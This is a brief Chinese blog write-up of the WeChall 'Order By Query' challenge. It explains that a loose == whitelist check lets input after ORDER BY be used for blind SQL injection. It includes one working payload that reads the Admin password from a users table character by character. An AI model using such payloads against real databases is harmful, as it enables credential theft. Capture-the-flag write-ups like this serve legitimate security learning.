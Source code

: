 ```yaml
---
title: Order By Query
author: binleebit
layout: post
redirect_from: 
  - /writeup/2014/06/16/order-by-query
  - /writeup/2014/06/16/order-by-query/
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/order\_by\_query/index.php][1]  
用户输入在`order by`后面出现，只能用盲注  
另外由于会检查参数`by`是否在白名单里，但用的是`==`，所以只要第一个字符是有效的数字即可

用二分法读内容  
<pre>
by=1,(case when (ascii(substring((select password from users where username=0x41646d696e),1,1))=51) then 3 else 1*(select apples from users)end)
</pre>

 [1]: http://www.wechall.net/challenge/order_by_query/index.php
